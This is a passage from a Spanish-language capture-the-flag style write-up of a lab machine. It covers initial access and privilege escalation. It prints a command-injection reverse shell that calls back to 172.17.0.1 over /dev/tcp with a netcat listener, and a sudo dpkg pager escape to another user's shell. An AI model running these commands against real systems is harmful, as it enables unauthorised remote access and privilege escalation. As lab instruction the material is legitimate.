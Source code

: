 ### Vector de Ataque
Ahora sabemos que el servicio esta siendo ejeuctando por un usuario: **( freddy )**
Nos aprovehcamos de esto para enviarnos una **reverShell** para ganar accesso a la maquina, Nos ponemos en escucha
### Intrusion
Modo escucha
```bash
nc -nlvp 443
```

```bash
# Reverse shell o acceso inicial
172.17.0.2 && bash -c 'exec bash -i &>/dev/tcp/172.17.0.1/443 <&1'
```

---

## Escalada de Privilegios
### Enumeracion del Sistema
Buscamos en los directorios por archivos:
```bash
# Comandos clave ejecutados
find . -type f 2>/dev/null
```

**Hallazgos Clave:**
	No obutivimos nada relevante
### Explotacion de Privilegios

###### Usuario `[ Freddy ]`:
Listando los permisos de este usuario:
```bash
sudo -l

User freddy may run the following commands on a2727baaa416:
    (bobby) NOPASSWD: /usr/bin/dpkg # Tenemos una via potencial de migrar a este usuario
```

Explotando privilegio
```bash
# Comando para escalar al usuario: ( bobby )
sudo -u bobby /usr/bin/dpkg -l # Primero este
!/bin/bash # Despues este
```

###### Usuario `[ bobby ]`:
Listando los permisos del usuario
```bash
sudo -l

User bobby may run the following commands on a2727baaa416:
    (gladys) NOPASSWD: /usr/bin/php # Tenemos una via potencial de migrar a este usuario
```
